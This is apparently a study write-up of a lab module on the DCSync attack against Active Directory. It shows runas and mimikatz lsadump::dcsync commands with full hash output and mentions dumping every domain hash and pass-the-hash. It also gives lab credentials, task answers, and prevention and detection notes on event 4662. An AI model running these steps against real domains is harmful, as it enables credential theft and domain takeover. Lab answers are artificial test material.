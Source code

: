 # DCSync

## Description

**DCSync** is a type of cyberattack where a hacker tricks a Domain Controller (DC) into thinking they're another DC. This lets the hacker ask for and receive sensitive information, like **password hashes**, from **Active Directory** (AD).

To do this, the hacker needs an account (either a user or a computer account) that has special permissions:

* **Replicating Directory Changes**
* **Replicating Directory Changes All**

These permissions allow the account to **copy data** from AD—just like a real Domain Controller would when syncing data.

***

## Attack

<mark style="color:yellow;">1.</mark>\
The first thing is to check does your user or computer have the necessary permissions, that we mentioned above.\
Lets say we escalated our privilages from an account "bob" to account "rocky" who has all the privilages

<figure><img src="../../../.gitbook/assets/privilages.png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">2.</mark>\
Than we need to open cmd and run as our new user "rocky"

### Run shell as different user

```cmd-session
C:\Users\bob\Downloads>runas /user:eagle\rocky cmd.exe

Enter the password for eagle\rocky:
Attempting to start cmd.exe as user "eagle\rocky" ...
```

This includes that we know the password remember.

3.\
Than we open mimikatz because it contains an implementation for performing DCSync attacks. Just mention the domain and user in the command.

## Perform dcsync

```cmd-session
C:\Mimikatz>mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator


[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 07/08/2022 11.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8
```

The field that we are intrested in is **Hash NTLM**

It is possible to specify the `/all` parameter instead of a specific username, which will dump the hashes of the entire AD environment. We can perform `pass-the-hash` with the obtained hash and authenticate against any Domain Controller.

***

## Prevention

* Using a third party product "[RPC Firewall](https://github.com/zeronetworks/rpcfirewall)"
* What DCSync abuses is a common operation in Active Directory environments, as replications happen between Domain Controllers all the time
* Therefore, preventing DCSync out of the box is not an option.

***

## Detection

* &#x20;Domain Controller replication generates an event with the ID `4662`

<figure><img src="../../../.gitbook/assets/detection.png" alt=""><figcaption></figcaption></figure>

Since replications occur constantly, we can avoid false positives by ensuring the followings:

* Either the property `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` or `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` is [present in the event](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb).
* Whitelisting systems/accounts with a (valid) business reason for replicating, such as `Azure AD Connect` (this service constantly replicates Domain Controllers and sends the obtained password hashes to Azure AD).

***

## Task

### Task 1

**Connect to the target and perform a DCSync attack as the user rocky (password:Slavi123). What is the NTLM hash of the Administrator user?**

Once connected to the user bob, we need to open cmd and run the cmd as user rocky, we have the provided password in the task description.

<figure><img src="../../../.gitbook/assets/Pasted image 20250410104601.png" alt=""><figcaption></figcaption></figure>

Great, now we need mimikatz\
In the rocky user, the mimikatz are located in **C:\Mimikatz**\
Run the dcsync command

<figure><img src="../../../.gitbook/assets/Pasted image 20250410105541.png" alt=""><figcaption></figcaption></figure>

**Answer: fcdc65703dd2b0bd789977f1f3eeaecf**

***

### Task 2

**fter performing the DCSync attack, connect to DC1 as 'htb-student:HTB\_@cademy\_stdnt!' and look at the logs in Event Viewer. What is the Task Category of the events generated by the attack?**

RDP from the bob RDP, to the DC1. The ip for DC1 is 172.16.18.3

<figure><img src="../../../.gitbook/assets/Pasted image 20250410105841.png" alt=""><figcaption></figcaption></figure>

Open Event Viewer, Security Logs, Filter and add the Event ID 4662

<figure><img src="../../../.gitbook/assets/Pasted image 20250410110505.png" alt=""><figcaption></figcaption></figure>

